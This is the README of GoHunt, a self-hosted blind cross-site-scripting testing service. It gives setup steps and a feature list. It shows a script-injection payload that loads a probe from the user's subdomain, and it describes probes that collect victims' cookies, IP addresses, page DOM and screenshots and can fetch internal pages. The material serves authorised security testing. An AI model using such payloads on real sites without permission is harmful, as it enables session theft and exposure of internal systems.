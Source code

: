 # GoHunt

A revival of [XSSHunter](https://github.com/mandatoryprogrammer/xsshunter), `GoHunt` brings all your favorite `XSSHunter` functionality. Plus quality of life improvements!

![image](https://github.com/user-attachments/assets/310053ad-0d92-42bc-ae72-fa439e567373)

![image](https://github.com/user-attachments/assets/3dd8a917-b313-4c34-929d-4df67c648c31)

![image](https://github.com/user-attachments/assets/d2a48ad0-cf17-48a6-a58b-055432efcb8c)

![image](https://github.com/user-attachments/assets/14bd78dd-9938-43ef-919a-0c1b87e5241c)


Main changes:
- Single golang binary or docker deployment
- Additional notification methods 
- Bulk deletion/editing 
- Single Sign on


## Requirements
* A domain name
* Docker/Podman
* Ability to set DNS records

## Setup

Set a wildcard DNS record to your GoHunt instance
```sh
example.com A <YOUR INSTANCE IP>
*.example.com CNAME example.com
```

Create an `.env` file, you can use the `.env.dev` as a template.
```sh
DOMAIN=localhost:8081
GOHUNT_USERNAME=test
DB_PASSWORD=averystrongpassword
#GOHUNT_PASSWORD=yourstrongpasswordhere (optional)
```

Remember to set your `DOMAIN`!

Start the `docker-compose.yaml`:
```sh
docker compose -f docker-compose.yaml up -d
```

Thats it!

## Summary of Functionality
*Upon signing up you will create a subdomain such as `yoursubdomain.example.com` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.example.com></script>`. GoHunt will automatically serve up XSS probes and collect the resulting information when they fire.*

## Features
* **Single Sign-on** GoHunt supports OIDC for logging in to your service
* **User Management** Admin users can update and edit user records
* **Managed XSS payload fires**: Manage all of your XSS payloads in your GoHunt account's control panel, including bulk deleting
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an GoHunt compatible tool is used) 
* **Full Page Screenshots**: GoHunt probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **XSS Payloads Fire Notifications**: XSS payload fires also send out **webhooks** or **email** notifications, your choice!
* **Automatic Payload Generation**: GoHunt automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of GoHunt is the ability to correlated injection attempts with XSS payload fires. By using an [GoHunt/XSSHunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the GoHunt service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after GoHunt has done it's thing? GoHunt offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **Confidential Mode**: Dont want to send any details with your notifications? To be safe, this option only means you get notification and no details to your **slack**, **discord**, or email inbox

## Advanced

### Using alternative reverse proxies

GoHunt requires the `X-Forwarded-Proto` and `X-Forwarded-For` headers if running behind a reverse proxy. 
Caddy, by default sends these headers. 
To parse `X-Forwarded-For` GoHunt also needs to be configured with how many proxies are in-front of your instance, so please set `number_proxies` in the yaml config, or the `NumberProxies` environment variable